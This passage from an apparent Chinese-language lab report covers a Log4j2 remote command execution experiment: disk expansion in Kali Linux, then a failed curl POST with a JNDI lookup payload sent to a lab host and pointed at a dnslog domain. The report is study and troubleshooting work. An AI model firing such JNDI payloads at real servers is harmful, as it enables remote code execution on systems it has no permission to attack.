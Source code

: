     在实验过程中总是碰到磁盘空间不足的问题，在网上查找解决办法，很多是通过删除无用镜像或者迁移路径的方法，但是治标不治本，不如直接给磁盘扩容，参考[Kali Linux磁盘扩容](https://zhuanlan.zhihu.com/p/574737232)。
    ![expansion-after](img/expansion-after.png)

- `POST`方法请求失败（未解决）
    ```
    curl -X POST http://192.168.17.130:25273/hello -d payload='"${jndi:ldap://usv85r.dnslog.cn/exp}"'

    ```
    进行`Log4j2远程命令执行`漏洞实验时，攻击者主机发送 POST 请求失败，只有 GET 方式可行。

    ![error](img/error-3.png)

    通过网页的`开发者模式`以及改用`Burpsuite`也只有 GET 方法可以成功，POST 方式均返回 405 错误。但是 GET 方法成功后dnslog没有记录。
    ![error](img/error-2.png)
    ![send](img/send.png)